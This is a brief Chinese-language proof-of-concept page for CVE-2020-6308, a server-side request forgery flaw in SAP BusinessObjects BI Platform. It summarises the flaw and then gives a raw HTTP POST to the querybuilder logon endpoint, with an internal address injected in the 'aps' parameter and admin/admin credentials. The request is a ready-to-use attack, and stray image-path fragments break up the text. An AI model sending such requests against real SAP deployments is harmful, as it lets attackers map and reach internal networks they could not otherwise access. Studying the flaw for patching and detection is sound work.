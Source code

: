 # CVE-2020-6308 SAP POC

SAP BusinessObjects Business Intelligence平台（Web服务）版本-410、420、430允许未经身份验证的攻击者注入任意值作为CMS参数，以在内部网络上执行查找，否则将无法从外部访问该内部网络。成功利用后，攻击者可以扫描内部网络以确定内部基础结构，并收集信息以进行进一步的攻击，例如远程文件包含，检索服务器文件，绕过防火墙并迫使易受攻击的服务器执行恶意请求，从而导致服务器端请求伪造漏洞。

详情参考：https://github.com/InitRoot/CVE-2020-6308-PoC

media/16096793220703/16096793301320.jpg)


**PoC：**

```bash
POST /AdminTools/querybuilder/logon?framework= HTTP/1.1
Host: 192.168.0.191:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 128
Origin: http://192.168.0.191:8080
Connection: close
Referer: http://192.168.0.191:8080/AdminTools/querybuilder/ie.jsp
Upgrade-Insecure-Requests: 1

aps=192.168.0.191&usr=admin&pwd=admin&aut=secEnterprise&main_page=ie.jsp&new_pass_page=newpwdform.jsp&exit_page=logonform.jsp
```